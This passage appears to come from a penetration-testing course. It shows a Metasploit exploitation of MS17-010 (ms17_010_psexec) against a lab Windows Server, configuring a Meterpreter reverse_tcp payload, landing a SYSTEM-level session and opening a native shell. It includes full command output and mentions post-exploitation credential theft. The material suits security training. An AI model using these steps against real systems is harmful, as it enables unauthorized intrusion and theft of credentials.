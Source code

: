 ```shell-session

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

This time, we kept it simple and just used a `windows/meterpreter/reverse_tcp` payload. You can change this as you wish for a different shell type or obfuscate your attack more, as shown in the previous payloads sections. With our options set, let's give this a try and see if we land a shell.

4. Execute Attack, and Receive A Callback.

### **Execute Our Attack**

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215) at 2021-09-27 18:58:00 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

Success! We have landed our exploit and gained a shell session. A `SYSTEM` level shell at that. As seen in the earlier MSF modules, now that we have an open session through Meterpreter, we are presented with the `meterpreter >` prompt. From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host. If you wish to interact with the host directly, you can also drop into an interactive shell session on the host from Meterpreter.

5. Identify the Native Shell.

### **Identify Our Shell**

```shell-session
meterpreter > shell

Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
